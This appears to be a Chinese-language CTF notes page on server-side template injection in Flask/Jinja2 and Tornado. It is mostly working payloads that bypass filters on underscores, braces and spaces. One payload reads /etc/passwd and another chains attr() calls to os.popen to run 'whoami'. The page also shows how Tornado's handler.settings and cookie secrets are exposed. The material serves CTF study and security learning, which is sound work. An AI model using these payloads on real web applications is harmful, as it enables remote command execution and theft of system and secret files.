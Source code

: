 - `request.args` flask中存储请求参数及值的字典，可以将值先赋给它然后进行调用

  ```html
  {{[].__class__.__base__.__subclasses__()[index].__init__.__globals__[request.args.arg1]}}&arg1=os
  ```

### 过滤`_`

- `request.args`

  ```html
  {{''[request.args.class][request.args.base][request.args.subclasses]()[index]('/etc/passwd').read() }}&class=__class__&base=__base__&subclasses=__subclasses__
  ```

  这种方式可以结合get和post，举例->[[CTFshow 击剑杯]通关大佬](https://qgieod1s9b.feishu.cn/docs/doccnNEAk0zZJDhi7bypQhF6eFf#RYhszr)，在不同的字段处对传入参数的限制是不同的

  ```
  /edit?a=__init__&b=__globals__&c=__getitem__&d=os&e=popen&f=whoami&g=read
  POST: name={%25set%20r=request.args%25}&rank=1&speech={{(config|attr(r.a)|attr(r.b))|attr(r.c)(r.d)|attr(r.e)(r.f)|attr(r.g)()}}&time=2021年11月11日
  ```

- 按字符串的方式走，也可

### 过滤`{`

- ```python
  {{}} == {% %}
  ```

### 过滤` `

- `+`替代

## 其它姿势

### 短短短

利用的是Flask中的`config`对象，它可以存储一部分设置项的内容；`config.update`方法可以用来存储设置项中的变量，用法是`config.update(key=value)`

这里用一个题做例子，指路->[[Digital Overdose 2021 Autumn CTF madlib]](https://amiaaaz.github.io/2021/10/22/digitaloverdosectf2021-wp/#webmadlib)

### ***pwn - 劫持got表getshell

pwn，在学了在学了，指新建文件夹和md文档😅

参考：[Python 沙箱逃逸](https://ctf-wiki.org/pwn/sandbox/python/python-sandbox-escape/)

# Tornado

Tornado也是一种模板，可以执行简单的表达式和传递变量，当参数可控时可能造成xss和rce

## 内置字典对象

- `handler.settings` 指向的是RequestHandler.application.settings

  ```html
  {{handler.settings}}
  {{escape(handler.settings["cookie"])}}
  ```

